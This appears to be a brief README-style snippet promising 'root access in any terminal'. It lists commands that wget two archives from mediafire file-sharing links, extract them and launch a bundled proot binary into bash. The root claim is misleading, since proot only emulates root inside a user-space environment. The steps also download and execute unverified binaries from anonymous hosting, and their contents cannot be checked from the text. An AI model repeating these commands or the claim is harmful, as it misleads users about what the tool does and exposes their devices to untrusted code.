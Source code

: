 SO THIS COMMANDS CAN GIVE YOU ROOT ACCESS IN ANY TERMINAL JUST FOLLOW THE COMMANDS

wget https://download1646.mediafire.com/synczrkeakdg/6q8n89mjchytbc7/001.zip

unzip 001.zip

wget https://download1980.mediafire.com/omfejbm7p31g/m85fq1a6dmu0rrc/002.tar.xz

tar -xvf 002.tar.xz

./dist/proot -S . /bin/bash
